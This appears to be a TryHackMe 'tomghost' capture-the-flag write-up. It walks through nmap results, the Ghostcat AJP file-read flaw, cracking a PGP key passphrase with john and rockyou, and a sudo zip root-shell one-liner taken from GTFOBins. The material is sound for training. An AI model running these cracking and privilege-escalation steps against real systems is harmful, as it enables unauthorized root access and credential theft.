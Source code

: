 ## tomghost - Try Hack Me
Easy box from tryhackme

`export IP=10.10.170.225`

## 1. Overveiw
**NMAP**
**AJP**
**PGP**
**GPG**
Link to the machine: https://tryhackme.com/room/tomghost

Start with a nmap scan which returns:
```sh
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  domain
8009/tcp open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
```



## user.txt

First we do a nmap `nmap -sC -sV @IP`
Output is the following:
```sh
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that 8009 is open running apj13.
A quick google search tells us this is vulnerable.
Seemes to be a local file inclusion vulnerability called tomghost that we can use.

### Apache JServ Protocol - AJP
Tomcat treats AJP connections as having higher trust than, for example, a similar HTTP connection. If such connections are available to an attacker, they can be exploited.

ExploitDB has a python script that can help us conduct the AJP requests to the server. It is pretty complex, but similar to a HTTP request. We use the script in order to just see if we geta response. When we run the script on the server, it replies witht the following string:

```sh
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

So we have a username and password. We can use this to log into the server on ssh.

We are in! Then we go to the home folder and `cd` in the `merlin` user. Here we find the user.txt, and we have permission to read it.

`python3 -m http.server 9001`

And then we wget the pgp and gpg files onto our machine. Old switcharoo.





## root.txt

There is a `.asc` file containing a private PGP private Key Block, and a .pgp file that contains some raw data that we cant read.

We can use johntheripper in order to create a hash for this and try to compare it with passwords from rockyou.
We do the ffollowing:
```sh
gpg2john tryhackme.asc > hash2
john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg hash2
```

And john finds the following password:
`alexandru        (tryhackme)`

This is the gpg password for the user. So we can add the private key to our list:
`gpg --import tryhackme.asc`

Then we supply the password that we just found.
And we can now decrypt the credential.pgp file:

`gpg -d credential.pgp`

- `-d` for decrypt.

We are then presented with the following username and password
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

After we log into merlin, we try the classic low hangin fruit `sudo -l`
and we see that merlin is allowed to run `zip`.
We then go to gtfobins and find a way to spawn a root shell.


Here are the commands to spawn a root shell:
```sh
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

The first line creates a temporary file or directory, and `-u` makes it not create anything, just printing a name.
Line 2 we use `zip` with `sudo` on that file or directory `TF` with the `/etc/hosts` file. This will create a zipfile called `TF.zip` containing the /etc/hosts file.
Then also in line 2 we do a `-T` and `-TT` which will use command cmd instead of 'unzip -tqq' to test an archive when the -T option is used.
And using the `-T -TT` we follow up with a shell for root using `'sh #'`.
Finally the tmp file/directory is deleted using the `sudo rm`.

We get a root shell and can just cat out the flag.
